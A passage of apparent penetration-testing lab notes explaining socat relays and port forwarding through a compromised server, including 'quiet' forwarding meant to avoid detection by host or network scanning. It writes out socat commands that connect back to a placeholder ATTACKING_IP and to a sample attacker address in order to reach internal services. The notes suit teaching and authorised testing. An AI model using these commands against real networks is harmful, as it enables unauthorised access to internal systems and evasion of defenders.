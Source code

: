 - `tcp-l:8000` is used to create the first half of the connection -- an IPv4 listener on tcp port 8000 of the target machine.
- `tcp:ATTACKING_IP:443` connects back to our local IP on port 443. The ATTACKING_IP obviously needs to be filled in correctly for this to work.
- `&` backgrounds the listener, turning it into a job so that we can still use the shell to execute other commands.

---

### 6.3 Port Forwarding — Easy

The quick and easy way to set up a port forward with socat is quite simply to open up a listening port on the compromised server, and redirect whatever comes into it to the target server.

For example, if the compromised server is 172.16.0.5 and the target is port 3306 of 172.16.0.10, we could use the following command (on the compromised server) to create a port forward:

```bash
./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &
```

This opens up port 33060 on the compromised server and redirects the input from the attacking machine straight to the intended target server, essentially giving us access to the (presumably MySQL Database) running on our target of 172.16.0.10.

---

### 6.4 Port Forwarding — Quiet

The previous technique is quick and easy, but it also opens up a port on the compromised server, which could potentially be spotted by any kind of host or network scanning. This method is marginally more complex, but doesn't require opening up a port externally on the compromised server.

1. First of all, on our own attacking machine, we issue the following command:
    
    ```bash
    socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
    ```
    
2. Next, on the compromised relay server (172.16.0.5 in the previous example) we execute this command:
    
    ```bash
    ./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &
    ```
    
3. This makes a connection between our listening port 8001 on the attacking machine, and the open port of the target server. To use the fictional network from before, we could enter this command as:
    
    ```bash
    ./socat tcp:10.50.73.2:8001 tcp:172.16.0.10:80,fork &
    ```
    

This would create a link between port 8000 on our attacking machine, and port 80 on the intended target (172.16.0.10), meaning that we could go to `localhost:8000` in our attacking machine's web browser to load the webpage served by the target: 172.16.0.10:80!
